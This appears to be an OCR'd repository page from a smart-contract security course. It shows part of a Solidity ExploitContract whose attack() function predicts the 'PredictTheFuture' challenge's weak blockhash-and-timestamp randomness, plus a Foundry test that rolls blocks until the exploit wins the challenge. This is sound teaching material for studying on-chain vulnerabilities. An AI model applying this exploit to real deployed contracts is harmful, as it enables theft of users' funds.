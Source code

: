 ```
    function attack() public {
        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)))) % 10;
        require(answer == exploitGuess);
        predictTheFuture.settle();
    }
}
```
- `test/Week8-9/PredictTheFuture.t.sol`
```
contract PredictTheFutureTest is Test {
    PredictTheFuture public predictTheFuture;
    ExploitContract public exploitContract;

    function setUp() public {
        // Deploy contracts
        predictTheFuture = (new PredictTheFuture){value: 1 ether}();
        exploitContract = new ExploitContract(predictTheFuture);
    }

    function testGuess() public {
        // Set block number and timestamp
        // Use vm.roll() and vm.warp() to change the block.number and block.timestamp respectively
        vm.roll(104293);
        vm.warp(93582192);

        // Put your solution here:
        vm.deal(address(exploitContract), 1 ether);
        exploitContract.lockInGuess(0);

        vm.roll(104295);

        while (!predictTheFuture.isComplete()) {
            try exploitContract.attack() {
                break;
            } catch {
                vm.roll(block.number + 1);
            }
        }

        _checkSolved();
    }

    function _checkSolved() internal {
        assertTrue(predictTheFuture.isComplete(), "Challenge Incomplete");
    }

    receive() external payable {}
}
```
